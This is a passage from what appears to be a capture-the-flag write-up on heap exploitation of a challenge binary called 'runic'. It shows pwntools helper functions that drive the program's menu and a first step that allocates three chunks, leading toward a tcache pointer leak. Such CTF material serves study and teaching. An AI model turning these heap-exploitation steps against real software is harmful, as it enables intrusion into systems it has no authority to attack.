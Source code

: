 
## Use the HOF to leak heap with the tcache pointer

Before we start we define some helper functions:

``` py

context.terminal = ['terminator','-e']

p = process("./runic")

# gs = """
#     b * show

# """
# pid = gdb.attach(p,gdbscript=gs)

def create(name,length,contents):
    p.sendlineafter(b"Action: \n", b'1')
    p.sendafter(b'\n',name)
    p.sendafter(b'\n',length)
    p.sendafter(b'\n',contents)

def edit(name_old,name_new,contents_new):
    p.sendlineafter(b"Action: \n", b'3')
    p.sendafter(b'\n',name_old)
    p.sendafter(b'\n',name_new)
    p.sendafter(b'\n',contents_new)

def delete(name):
    p.sendlineafter(b"Action: \n", b'2')
    p.sendafter(b'\n',name)

def view_(name):
    import time
    time.sleep(3)
    p.sendlineafter(b"Action: \n",b'4')
    p.sendafter(b'\n',name)



def padd(x):
    return x.ljust(8,b'\x00')
```

Then we proceede by creating 3 chunks like this (A,B,C)

```python
create(padd(b'\x05'),'15','BBBBBBBB')
create(padd(b'\x0b'),'8','FFFFFFFF')
create(padd(b'\x01'),'50','CCCCCCCC')
```
